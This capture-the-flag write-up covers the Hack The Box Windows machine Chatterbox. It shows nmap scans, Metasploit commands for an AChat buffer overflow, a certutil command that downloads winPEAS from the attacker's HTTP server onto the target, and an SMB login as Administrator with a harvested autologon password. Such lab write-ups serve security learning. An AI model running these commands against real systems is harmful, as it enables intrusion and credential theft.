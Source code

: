 ### HTB Chatterbox  (10.10.10.74)

Here we are again, doing another HTB.  Hope this finds you well and let's get to it.

So first thing's first, we nmap to see what we're dealing with.

`sudo nmap -A 10.10.10.74`

![pic1nmap](/Images/HTB2Chat/Pic1nmap.png)
![pic2nmap](/Images/HTB2Chat/Pic2nmap.png)

Looks like we've got a windows machine on our hands.  Some SMB stuff too so that could prove intersting later.  At this point the guided approach in HTB had kinda stopped working.  It was asking how many ports were open and I would answer from this and it would be wrong.  I found a write up to check my work and appears I wasn't totally wrong, but I had too many.  I even tried adjusting my nmap scan.

`sudo nmap -A -p- 10.10.10.74`

And got still another answer, that was again, wrong lol.

![pic3nmap](/Images/HTB2Chat/pic3nmap.png)

The answer you're looking for is 2.  Those two ports are the the focus, that we will get into now.

The next question in the guided mode asks about the known buffer overflow attack linked to achat.  After a google search I do end up finding an exploit for a version of achat.  Not sure if it's the version I am looking at though, so lets go about finding that.

Followed directions on the rapid7 site.

```
msf6 > use exploit/windows/misc/achat-bof
msf6 exploit(windows/misc/achat-bof) > show targets
```

![pic4metaspoit](/Images/HTB2Chat/pic4metasploit.png)

And look at that, the version number.  And it just happens to match the exploit I found.  So lets give it a go.

In that same exploit, let's look at our options.

```
msf6 exploit(windows/misc/achat-bof) > set target 10.10.10.74
msf6 exploit(windows/misc/achat-bof) > set lhost <my vpn ip>
msf6 exploit(windows/misc/achat-bof) > show options
```

![pic5metasploit](/Images/HTB2Chat/pic5metasploit.png)

`msf6 exploit(windows/misc/achat-bof) > run`

And it.....wait, it failed?!  Huh.  Ok, well let's try a different way.  So I found a couple things on git hub about using a buffer overflow for this.  It required using msfvenom in order to build out the vulnverability.  After finding that and getting it figured out (including finding out that these exploits were written in python2 and not python3), and a machine reset, I was finally able to get my exploit going for initial foothold.

![pic6cmd](/Images/HTB2Chat/pic6cmd.png)

Hey hey!!  That did the trick.  Now that we're in as the user, lets go ahead and grab his flag.

![pic7userflag](/Images/HTB2Chat/pic7userflag.png)

Now that I have that, let's get to getting the root one.

So first thing, grab us a bit of winpeas and then use python to start an http server and certutil.exe to grab the file over and run that.

```
root@kali# python3 -m http.server 80

C:/Users/Alfred/Documents> certutil -urlcache -f http://<VPN IP Address>/winpeasx86.exe winpeasx86.exe
C:/Users/Alfred/Documents> winpeasx86.exe
```

Once I got that run, then I look through the output and wouldn't you know it, there's an autologin set up.  And it's giving me the password to that.  Not to mention that we also see Alfred here has access to the admins home folders.

![pic8findings](/Images/HTB2Chat/pic8findings.png)

Turns out I don't have full access.  I still have the password though.

![pic9denied](/Images/HTB2Chat/pic9denied.png)


So let's try to do something with this password.  So after some looking, I find that the trick to this box is in the ports that are open.  I find a tool called plink.exe cause when looking at the netstat -ano command, you'll notice that there is an extra port on the inside that isn't showing up on the outside.

```
C:/Users/Alfred/Desktop>netstat -ano
```

![pic10SMB](/Images/HTB2Chat/pic10SMB.png)

Oh look, it's SMB.  We know all about SMB.  And actually, after looking, I found that SMB is apparently running on the outside.  Back to that earlier where it showed only 2 ports as being open.  So connect via SMB and try the Administrator account with the password we grabbed earlier for Alfred, since he's a local admin.

```
smbclient \\\\10.10.10.74\\C$ -U Administrator
Password for [WORKGROUP\Administrator]:
```
![pic11SMB](/Images/HTB2Chat/pic11SMB.png)

And that gives us our root.txt file.  Use SMB to download the file and then simply open it up and there's your flag!

![pic12SMB](/Images/HTB2Chat/pic12SMB.png)<br>
![pic13root](/Images/HTB2Chat/pic13root.png)

This one was fun, a little sad that the plink path didn't work but it is what it is.  I think it may not have worked because that port was already on the outside so trying to forward something already forwarded may be an issue.  But, we got it, all good now.
